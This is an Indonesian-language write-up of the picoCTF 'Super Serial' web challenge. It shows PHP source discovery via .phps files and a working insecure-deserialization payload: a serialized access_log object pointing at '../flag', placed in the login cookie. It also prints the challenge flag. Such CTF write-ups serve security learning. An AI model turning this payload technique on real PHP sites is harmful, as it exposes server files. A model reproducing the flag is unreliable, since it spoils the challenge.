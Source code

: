# Super Serial
- Link: https://play.picoctf.org/practice/challenge/180?category=1&page=2

## Tantangan
Try to recover the flag stored on this website http://mercury.picoctf.net:3449/

## Penyelesaian
- Buka URL http://mercury.picoctf.net:3449/ di browser

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%201.JPG)

- Jika kita buka path `robots.txt` di url http://mercury.picoctf.net:3449/robots.txt terdapat path dihidden sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%202.JPG)

- Jika kita buka halaman tersebut di url http://mercury.picoctf.net:3449/admin.phps halaman tersebut tidak ditemukan

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%203.JPG)

- Sekarang kita coba buka `index.phps` dengan url http://mercury.picoctf.net:3449/index.phps maka terdapat source code sebagai berikut. Jika anda tidak dapat membuka source code nya, silahkan klik kanan lalu pilih view page source. Disini terdapat fungsi pengaturan cookie dengan nama `login` dan value nya diencode menggunakan base64

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%204.JPG)

- Sekarang kita coba buka `cookie.phps` dengan url http://mercury.picoctf.net:3449/cookie.phps maka terdapat source code sebagai berikut. Jika anda tidak dapat membuka source code nya, silahkan klik kanan lalu pilih view page source

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%205.JPG)

- Sekarang kita coba buka `authentication.phps` dengan url http://mercury.picoctf.net:3449/authentication.phps maka terdapat source code sebagai berikut. Jika anda tidak dapat membuka source code nya, silahkan klik kanan lalu pilih view page source

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%206.JPG)

- Sekarang kita coba akses halaman http://mercury.picoctf.net:3449/authentication.php

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%207.JPG)

- Klik kanan di halaman tersebut lalu pilih Inspect

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%208.JPG)

- Kemudian pergi ke tab storage. Disini kita bisa mencoba untuk menambahkan cookie `login` dengan value yang diencode dengan base64

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%209.JPG)

- Buka editor PHP online https://legacy-sandbox.onlinephpfunctions.com/ lalu ketikkan code berikut lalu execute code tersebut
```sh
<?php

print(urlencode(base64_encode(serialize("test"))));
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%2010.JPG)

- Copy value tersebut dan tambahkan ke value cookie `login` dan refresh halaman tersebut
```sh
czo0OiJ0ZXN0Ijs%3D
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%2011.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%2012.JPG)

- Ubah source code PHP diatas menjadi sebagai berikut lalu execute code tersebut
```sh
<?php
        
class access_log
{
	public $log_file = "../flag";
}

print(urlencode(base64_encode(serialize(new access_log()))));
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%2013.JPG)

- Copy value tersebut dan tambahkan ke value cookie `login` dan refresh halaman tersebut
```sh
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%2014.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Super%20Serial/assets/super%20serial%2015.JPG)

- Flag
```sh
picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```